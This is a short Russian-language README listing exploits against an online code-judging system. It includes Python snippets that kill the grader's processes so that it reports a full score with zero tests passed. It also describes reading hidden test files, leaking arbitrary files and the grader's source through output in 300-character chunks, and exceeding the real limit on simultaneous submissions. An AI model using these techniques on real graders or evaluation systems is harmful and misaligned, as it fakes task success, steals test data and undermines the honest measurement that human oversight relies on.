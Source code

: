 # Известные уязвимости:

## Process kill:
- Набирает полный балл по любой задаче, при этом проходит 0 тестов.
```python
import psutil

for process in psutil.process_iter():
    process.kill()
```
Или
```python
import psutil

for process in psutil.process_iter():
    if process.name() == 'python3':
        process.kill()
```

## Доступ к файлам
- Список файлов можно найти [здесь](files.txt). Получен с помощью
```python
print(os.listdir(...))
```

- Идея: выгружать любой файл из тестирующей системы
- Максимальный вывод - 300 символов, приходится разбивать файл на "блоки" по 300 символов
- Чтобы не делать много посылок вручную, была написана программа, автоматизирующая процесс отправки и парсинга вердиктов

### Ограничения по отправкам
- Ограничения на одну одновременно тестирующуюся посылку - исключительно на сайте, реальное ограничение - не более 9ти одновременно тестирующихся посылок

### Тесты
- Тесты лежат в /tmp/data/tests/{номер теста} (/tmp/data/tests/001...)
Можно загружать небольшие тесты через:
```python
print(open('tmp/data/tests/001', 'r').read())
```

### Тестирующая система
- С помощью описанной выше технологии был выгружен код тестирующей системы
- Все файлы лежат в папке sources
